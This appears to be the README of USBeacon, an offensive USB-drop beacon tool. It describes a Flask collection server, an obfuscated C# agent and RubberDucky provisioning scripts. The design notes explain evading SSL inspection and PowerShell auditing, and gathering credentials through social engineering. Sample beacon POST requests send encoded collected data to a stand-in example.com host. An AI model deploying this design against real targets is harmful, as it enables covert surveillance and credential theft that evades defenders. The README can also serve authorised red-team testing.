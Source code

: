 USBeacon
===================
>- What and Why
>  - **Backend**
>  - **Frontend**
>  - **Provisioning**
>  - **Operations**
>  

#What and Why

* Ask: Use no exploitation or drop offensive agents (Empire, MSF), but record who inserted USB an on what machine. Possibly use SocEng opportunities to gain some credential data. 
* Enable transparent, obscured payload communication over common non-secured port (80). Application level encryption. This is done so that SSL interception and inspection is not an issue.  Works by blending into normal traffic. All it should look like a straight HTTP traffic.
* Allows storage of gathered data.
* Any HTTP client can communicate.
* Relative ease of deployment.  Flask microframework. 

##Backend 

> - Flexibly Handles REST API
> Verbs:  _GET_, _POST_, _PUT_ 
> endpoints 
>  - /beacon/[:id] , 
>  - /ebeacon/[:id] (encrypted beacon) 
> - Decodes/decrypts payloads
> - Saves timestamped payloads to database 


Sample Plaintext (POST):

`POST http://example.com:8000/beacon/4445534B544F502D4A4D4A4D4E4C49`

`a=hid&d=state_ok_data_follows`

Sample Encrypted Request:

`POST http://example.com:8000/ebeacon/4445534B544F502D4A4D4A4D4E4C49 `

`a=hid&d=NTgsNTksNDUsNTMsNDIsNDksNDYsODMsNTIsNTEsNTIsNTEsNDgsNTAsNTUsMzQsMjYsMjMsMTksMzEsMTMsMzIsNTgsNTksNDUsNTMsNDIsNDksNDYsODMsNTIsNTEsNTIsNTEsNDgsNTAsNTUsMzIsNzksNzEsNzYsODAsNzksNzIsNzAsODAsNzksNzEsNzEsODAsNzksNzYsNzEsMzI`

### Install
git clone https://github.com/dsnezhkov/USBeacon.git

_Install runtime and framework dependencies_

    apt-get install python3.4-venv
    python3.4 -m venv venv
    pip install --upgrade  pip
    pip install gunicorn
    
_Install application dependencies_

    pip install -r requirements
    
  _Application init and start_
  
    python init_db.py
    
>Setup application container: Nginx/apache/wsgi, etc.
	    
    
    gunicorn app:app -p gunicorn.pid -b 0.0.0.0:8000  --error-logfile=gunicorn.log --access-logfile=gunicorn.log --capture-output  -D 

###_Alternatively run setup and run scripts_
`backend/scripts/setup.sh`
This script will also have a sample nginx site configuration

`backend/scripts/start_server.sh`

----------
## Frontend 

Really, it's about agent gathering the data. Normally it would be an executable on USB doing the collection. I opted to avoid Powershell or other native scripting capability to avoid the upcoming Powershell command auditing. This might include anything within **System.Management.Automation** space. At the same time C# agent strikes a balance between Powershell and unmanaged code. 

_Frontend_ contains example of such C# projects which collects needed info and can be used to communicate HTTP back to  the Backend collector.

>./frontend/Windows/exebeacon/

is one such example. 
For the specific need I have chosen to further protect the  code with https://yck1509.github.io/ConfuserEx/ 


Create others as needed.

## Provisioning 

Contains sample scripts to manage creation of a working USB RubberDucky drop.  

> ./dist - _your payloads that go on RD USB _ 
Scripts:
> - get_ext_deps.sh  - _Get USB RD dependency scripts_
> - gen_vidpid.sh - _VIP PID swapper
> - payload2usb.sh - _Flash RD firmware and copy payload to RD_
> - gen_inject.sh - Convert RD script to inject.bin 

## Operations
**In a gist:**
1. install backend. Change XOR key or code per Frontend. Start it.
2. provision frontend. Change XOR key or dynamically generate.
3. deploy frontend. wait.
4. run reports on backend.

FE- Frontend
BE-Backend
DB-Database
```
FE-->REST --> BE(80): GET Parameters --> DB
FE-->REST --> BE(80): POST Parameters --> DB
FE-->REST --> BE(80): PUT JSON --> DB 
Encrypted payload (B64Encode(XOR(payload,key)) 
```

**Shortcomings:**

> - Static XOR key between frontend and backend, but can be randomized with keyspace of UTF-16  
Opted out of full symmetric encryption due to poor support in VBScript.

